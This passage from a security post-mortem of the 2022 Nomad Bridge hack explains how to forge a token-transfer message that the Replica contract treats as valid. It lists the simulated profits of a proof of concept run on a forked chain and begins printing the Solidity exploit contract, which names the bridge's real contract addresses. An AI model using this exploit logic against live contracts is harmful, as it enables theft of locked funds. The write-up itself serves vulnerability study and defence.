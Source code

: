 Snippet 4: Generate the malicious message with the right format and parameters, view [raw](https://gist.github.com/gists-immunefi/2a5fbe2e6034dd30534bdd4433b52a29#file-nomad-hack-analysis-4-sol).

</div>

The generated message needs to be encoded with various different parameters, so that it gets properly unpacked by the protocol. Importantly, we need to specify the forwarding path of the message — the bridge router and the ERC-20 bridge addresses. We must flag the message as a token transfer, hence the `0x3` value as the type.

Finally, we have to specify the parameters that will bring the profit to us–the right token address, the amount to be transferred, and the recipient of that transfer. As we’ve seen already, this will surely create a brand new original message that will never have been processed by the `Replica` contract, which means that it will actually be seen as valid, according to our previous explanation.

Quite impressively, this completes the entire exploit logic. If we had some Foundry logs, our PoC still amounts to only 87 lines of code.

If we run this PoC against the forked block number, we will get the following profits:

* 1,028 WBTC
* 22,876 WETH
* 87,459,362 USDC
* 8,625,217 USDT
* 4,533,633 DAI
* 119,088 FXS
113,403,733 CQT

## Conclusion

The Nomad Bridge exploit was one of the biggest hacks of 2022. The attack stresses the importance of security throughout the entire protocol. In this particular case, we’ve learned how a single routine upgrade on a proxy implementation can cause a critical vulnerability and compromise all locked funds. Furthermore, during development one needs to be careful regarding the 0x00 default values on storage slots, specially in logic involving mappings. It’s also good to have some unit testing setup for such common values that might lead to vulnerabilities.

It should be noted that some scavenger accounts that drained portions of the funds returned them to the protocol. There are [plans to relaunch the bridge](https://medium.com/nomad-xyz-blog/nomad-bridge-relaunch-guide-3a4ef6624f90), and the returned assets will be distributed to users through pro-rata shares of those recovered funds. Any stolen funds can be returned to Nomad’s [recovery wallet](https://etherscan.io/address/0x94a84433101a10aeda762968f6995c574d1bf154).

As previously pointed out, this PoC actually enhances the hack and drains all TVL in one transaction. It is a simpler attack than what actually took place in reality. This is what our entire PoC looks like, with the addition of some helpful Foundry logs:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;
 
import "@openzeppelin/token/ERC20/ERC20.sol";
import "forge-std/console.sol";
 
interface IReplica {
   function process(bytes memory _message) external returns (bool _success);
}
 
contract Attacker {
   address constant REPLICA = 0x5D94309E5a0090b165FA4181519701637B6DAEBA;
   address constant BRIDGE_ROUTER = 0xD3dfD3eDe74E0DCEBC1AA685e151332857efCe2d;
   address constant ERC20_BRIDGE = 0x88A69B4E698A4B090DF6CF5Bd7B2D47325Ad30A3;
  
   // Nomad domain IDs
   uint32 constant ETHEREUM = 0x657468;   // "eth"
   uint32 constant MOONBEAM = 0x6265616d; // "beam"
 
   // tokens
```